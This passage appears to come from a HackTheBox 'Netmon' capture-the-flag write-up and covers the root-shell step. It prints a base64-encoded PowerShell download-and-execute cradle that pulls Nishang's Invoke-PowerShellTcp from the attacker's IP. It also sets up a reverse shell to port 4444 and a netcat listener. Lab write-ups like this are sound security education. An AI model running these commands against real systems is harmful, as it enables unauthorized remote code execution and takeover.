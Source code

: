 ![Notification Parameter](/assets/netmon-htb/notification.png)



## <span style="color:red">Shell as Root</span>


The repo gave us a useful file fetching payload, which we will use to fetch a script that executes a reverse shell and invokes an instance of PS for us.
Here is how we'll use it:

```bash
$ echo -n "IEX(new-object net.webclient).downloadstring('http://[MY-IP-ADDRESS]/Invoke-PowerShellTcp.ps1' )" | iconv -t UTF-16LE | base64 -w0
SQBFAFgAKABuAGUAdwAtAG8AYgBq...wAHMAMQAnACAAKQA=

$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
.
.
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress [MY-IP-ADDRESS] -Port 4444" >> Invoke-PowerShellTcp.ps1

$ python -m http.server 80 #in the same directory as the script we just fetched
```

Now just to set up input the encoded string into the notification parameter, then set up a netcat listener:

![exploit](/assets/netmon-htb/exploit.png)
